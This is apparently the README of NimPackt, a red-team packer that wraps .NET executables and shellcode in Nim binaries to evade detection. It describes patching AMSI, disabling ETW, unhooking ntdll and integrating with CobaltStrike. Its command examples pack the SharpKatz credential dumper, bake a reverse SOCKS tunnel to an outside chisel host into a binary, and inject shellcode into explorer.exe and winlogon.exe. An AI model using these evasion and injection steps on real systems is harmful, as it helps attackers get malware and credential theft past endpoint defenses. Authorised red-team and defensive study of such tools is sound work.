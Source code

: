 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

*By Cas van Cooten (@chvancooten)*

## Description

> ⚠ NimPackt is still under active development and will contain bugs/oversights/flaws. Though generated binaries should be OpSec-safe, please verify this yourself before deploying them in active engagements. Kthx.

NimPackt is a Nim-based packer for C# / .NET executables and raw shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. Currently, it has the following features.

- Unhooking User-mode APIs (`Ntdll`) using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Disabling Event Tracing for Windows (ETW) (recommended for 'execute-assembly' method)
- Patching the Anti-Malware Scan Interface (AMSI) (recommended for 'execute-assembly' method)
- Payload encryption (AES-128 CTR) to prevent static analysis
- Obfuscating static strings used in the binary
- Supports cross-platform compilation (from both Linux and Windows)
- Supports both x64/x86 compilation (make sure to grab the right architecture for the ingested binary)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to re-pack the binary into position-independent shellcode and launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a [ARGUMENTS]] [-r] [-t INJECTTARGET] [-E] [-32] [-H] [-nu] [-na] [-ne] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a [ARGUMENTS], --arguments [ARGUMENTS]
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-time arguments (default)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default false, implies -r) (WARNING: VOLATILE)

other arguments:
  -32, --32bit          Compile in 32-bit mode
  -H, --hideapp         Hide the app frontend (console output) by compiling it in GUI mode
  -nu, --nounhook       Do NOT unhook user-mode API hooks
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI) (recommended for shellcode)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW) (recommended for shellcode)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```
# Pack SharpKatz to accept commands at runtime, patching hooks, AMSI, and ETW while printing verbose messages on runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -v

# Pack SharpChisel with a built-in ChiselChief connection string, do not patch AMSI or disable ETW, hide the application window on runtime
python3 NimPackt.py -na -ne -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to execute in the local thread without patching AMSI or ETW (generally not needed for shellcode) and hiding the Nim binary window
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -H -na -ne

# Pack raw shellcode to execute in a newly spawned Explorer thread (default), enabling verbose log messages in the compiled Nim binary
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -v

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe')
python3 NimPackt.py -i calc.bin -e shinject -na -ne -r -E -t "winlogon.exe"
```

Binaries are stored in the `output` subfolder of your installation directory.

## Known issues

- The `-H` flag doesn't seem to properly hide the output of the executed assembly when `execute-assembly` mode is used. This probably relates to C# compiling options, need to investigate this further.
- Shellcode doesn't seem to return correctly over all injection methods. This is generally not a problem for local injection (since the Nim thread can die anyway), but for remote injections it will in most instances cause the process to crash once the shellcode returns. For a sacrificial process this might be okay, but for existing processes (-E) this is not acceptable. Need to look into making shellcode properly return.

## Wishlist

- Provide option to evade sandbox fingerprinting (e.g. by performing calculations for 10-30s)
- Provide option to pack as dll library